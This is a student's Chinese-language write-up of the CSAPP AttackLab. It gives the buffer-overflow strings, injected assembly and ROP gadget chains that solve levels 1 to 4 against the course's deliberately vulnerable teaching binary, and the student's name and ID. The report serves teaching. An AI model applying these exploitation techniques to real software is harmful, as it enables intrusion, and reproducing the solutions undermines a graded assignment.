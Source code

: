 # AttackLab

**姓名**：魏剑宇

**学号**：PB17111586

**代码地址**：[Github](https://github.com/kaleid-liner/CSAPP/tree/master/attack)(在DDL之后我会将此仓库make public)

**实验环境**：IDA Pro on Windows 10、 gdbserver on Ubuntu（虚拟机）

---

## Code-injection attacks

### Level 1

这一题相对比较基础，只需要在`getbuf`返回后，能返回到`touch1`即可。`test` 代码如下，

```c
void test()
{
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

在`getbuf`调用了`gets`，未进行字符数组长度限制等操作，且`buf`数组在栈中，非常易于收到缓冲区溢出攻击。`getbuf`的汇编如下（来自ida pro），

```assembly
sub     rsp, 28h
mov     rdi, rsp        ; dest
call    Gets
mov     eax, 1
add     rsp, 28h
retn
```

从`sub rsp, 28h`可以知道，`buf`的长度是28h，即40 bytes。故输入的字符串长度超过28h即可溢出。

在下一步之前，我们先清楚在栈退出时的布局，如下所示。

| address | content          |
| ------- | ---------------- |
| rsp + x | 参数（if exist） |
| rsp     | 返回地址         |
| rsp - x | local variables  |

（这里由于没有一般的`push ebp; mov ebp esp`的过程，栈和一般的有所不同。

这里，我们需要做的就是在`gets`的时候，输入足够长的字符串，填充掉`[rsp]`处的内容，使返回地址变为`touch1`的地址。能这样做的原因是`ret`指令就是跳转到`[esp]`的位置并`pop`。

知道这个，因为`touch1`的地址是`0x4017C0`，我们需要输入的内容的字符串表示就是`'00 ' * 40 + 'C0 17 40 00 00 00 00 00'`。这样就会跳转到`touch1`的地址了。

![level1](assets/level1.png)

### Level 2

这题需要注入一段代码，让其执行。需要将`edi`设为cookie的值。回忆一下，*System V AMD64 ABI*里，`edi`用来传递第一个参数。这里，我的`cookie.txt`里的内容是`0x59b997fa`。

这题的思路应该是覆盖返回地址，返回到自己注入的代码的地址处，执行`mov edi, 0x59b997fa`，设置`[esp]`的内容为`touch2`的地址，并`ret`。

以下是汇编代码：

```assembly
.intel_syntax noprefix       
.quad 0, 0, 0, 0 ,0          
.quad 0x5561DCA8             
                             
movq rdi, 0x59b997fa         
mov qword ptr [rsp], 0x4017EC
ret                          
```

如上，`.quad 0, 0, 0, 0, 0`是填充40个bytes的0。将返回地址填充为`0x5561DCA8`（这个地址是注入到栈里的代码的开始，通过用`gdb`调试一次就可以得到）。之后执行的代码的作用是很明显的。最后的`ret`将返回到`0x4017EC`，即`touch2`的地址。

为了得到注入`touch2`的字符串，执行以下操作

```shell
gcc -c touch2.s
objcopy touch2.o -O binary touch2
```

gcc 汇编后的代码是 ELF 格式的可执行文件，所以需要通过`objcopy`转化为纯二进制文件，即只含数据和代码的文件。

![level2](assets/level2.png)

### Level 3

和level2大同小异。只不过这回`rdi`的内容需要设置为字符串的地址。字符串的地址可以通过计算得到。需要注意的是字符串放置的位置需要注意，因为之后`hexmatch`里面可能会覆盖部分栈的内容。

`hexmatch`中有如下内容`add rsp, 0FFFFFFFFFFFFFF80h`，说明用到了128byte的栈。多留一点不会造成什么危害，所以我空余了160个bytes的空间。之后在内存中填充字符串`59b997fa`，即`cookie`的值。

```assembly
.intel_syntax noprefix
.quad 0, 0, 0, 0 ,0
.quad 0x5561DCA8

movq rdi, 0x5561DD30
mov qword ptr [rsp], 0x4018FA
ret

.quad 0, 0, 0, 0, 0
.quad 0, 0, 0, 0, 0
.quad 0, 0, 0, 0, 0

.ascii "59b997fa\0"
```

生成输入文件的操作和[level2](#level-2)的内容相同。最后的结果如下，

![level3](assets/level3.png)

## Return-Oriented Programming

### Level 4

需要这种形式的攻击的原因主要是程序做了一些防御手段

- 栈中的内容被设置为不可执行的
- 栈的位置是随机的

所以很难找到植入栈中的代码的地址。在这种情况下，ROP应运而生。这个的原理在[writeup](http://csapp.cs.cmu.edu/3e/attacklab.pdf)中已有介绍。

所以重点是在汇编中找到合适的 gadget 进行组合。分析 gadget farm 的内容，可以找到以下有用的汇编。

```assembly
; addval_273
; 48 89 C7 C3
movq rdi, rax
ret

; addval_219
; 58 90 C3
popq rax
nop
ret

; setval_426
; 48 89 C7 90 C3
movq rdi, rax
nop
ret

; getval_481
; 5C 89 C2 90 C3
popq rsp
movl edx, eax
ret

; addval_190
; 48 89 E0 C3
movq rax, rsp
ret
```

我只需要用到`popq rax`和`movq rdi, rax`。所以，我需要做的应该是，

- 覆盖返回地址为`addval_219`中`58 90 C3`处的地址，即`0x4019AB`。
- 通过`popq rax`来将`rax`设为`0x59B997FA`。
- 返回到`addval_273`的地址，即`0x4019A2`。
- 通过`mov rdi, rax`将`rdi`设为cookie的值。

所以最后的地址为的内容为`'00 ' * 40 + 'AB 19 40 00 ' + '00 ' * 4 + 'FA 97 B9 59 ' + '00 ' * 4 'A2 19 40 00 ' + '00 ' * 4 + 'EC 17 40 00 ' + 00 ' * 4 + '\n'`.

结果如下，

![level4](assets/level4.png)

## Reproduction

为了复现我的结果，只需要运行：

```shell
./generate.sh
```

可以得到`touch1`、`touch2`、`touch3`、`touch4`，即为这四题的答案。

